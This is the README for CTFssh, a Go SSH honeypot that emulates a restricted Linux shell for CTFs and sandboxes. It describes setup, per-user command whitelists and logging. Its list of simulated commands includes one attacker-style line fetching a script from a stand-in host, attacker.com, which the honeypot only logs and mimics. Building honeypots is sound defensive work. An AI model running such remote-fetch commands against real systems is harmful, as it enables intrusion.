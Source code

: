 # CTFssh – Minimal SSH Honeypot Shell

**CTFssh** is a lightweight and configurable SSH server written in Go, designed to simulate a restricted shell for honeypots, CTFs, and sandbox environments. It supports both password and public key authentication, user-based command whitelists, and realistic command emulation.

---

## ✨ Features

- 🔐 Auth via shadow-compatible password hashes or SSH public keys
- 🧑 Per-user permissions and command restrictions
- 📂 Simulates Linux commands using static text or fake executable scripts
- 🚫 No shell, tunneling, SCP, or real exec
- 🪓 Login rate limiting per user/IP
- 🧠 Honeypot-safe logging of commands and URLs

---

## 🛠️ How It Works

- Users are authenticated using `users.json`
- Each session launches a custom shell environment
- Only predefined commands are accepted per user
- Commands either:
  - Return static text (from `text/`)
  - Run safe scripts (from `command/`)
- Logs all commands, login attempts, and fake network usage

---

## 📁 Project Layout

. ├── main.go # Entrypoint ├── users.go # Authentication logic ├── commands.go # Command dispatch and execution ├── hostkey.go # Host key loader/generator ├── ratelimit.go # Login rate-limiting ├── users.json # User definitions ├── host_key # SSH server key ├── command/ # Simulated executables (curl, ping, etc.) ├── text/ # Static command output (ls, uname, etc.) ├── help/ # Help messages per command ├── work/ # Optional user work directory

---

## 🚀 Quick Start

### 🔧 Build

```bash
go build -o ctfssh
🔐 Host Key
Generate it on first run or with:
make hostkey
👤 Create users.json
Example:
[
  {
    "username": "admin",
    "hash": "$6$somesalt$...",
    "admin": true,
    "restrict": "",
    "allowed": ["help", "exit", "ls", "cat", "curl", "wget"],
    "prompt": "$ ",
    "banner": "Welcome to your secure fake shell"
  }
]
Generate hashes:
python3 -c 'import crypt; print(crypt.crypt("admin", crypt.mksalt(crypt.METHOD_SHA512)))'
▶️ Run the Server
./ctfssh --port 2222 --hostkey host_key --users users.json --banner "SSH-2.0-CTFssh"
🧪 Simulated Commands

cat /proc/cpuinfo
curl https://attacker.com/file.sh
ping 8.8.8.8
w, last, uname, uptime, ls, id
🔒 Security & Safety

All commands are isolated and non-destructive
Inputs are parsed and sanitized
No shell or command chaining allowed
Rate limiting blocks bruteforce attempts
Can safely be run on port 22 using:
authbind
setcap
iptables redirect
🧠 Good To Know


Flag	Description
--port	Port to listen on
--hostkey	Path to SSH private key
--users	Path to user config JSON
--banner	SSH version banner string
📦 Example Commands in command/

cat → fake /proc and /etc reads
curl, wget → logs URLs and mimics download
ping → fake ICMP responses
w, last → fake session reports
📤 Deployment

Use make build or:
go build -o ctfssh main.go users.go commands.go hostkey.go ratelimit.go
Use authbind, iptables, or setcap to bind to port 22 as non-root.
🛡️ License

MIT
💬 Contributing

Pull requests welcome — especially for new fake command modules or integrations.
🖼️ Screenshot

$ ssh admin@localhost -p 2222
Welcome to your secure fake shell
Type 'help' to see available commands.

$ help
Available commands:
  - ls
  - cat
  - curl
  - wget
  - exit

---


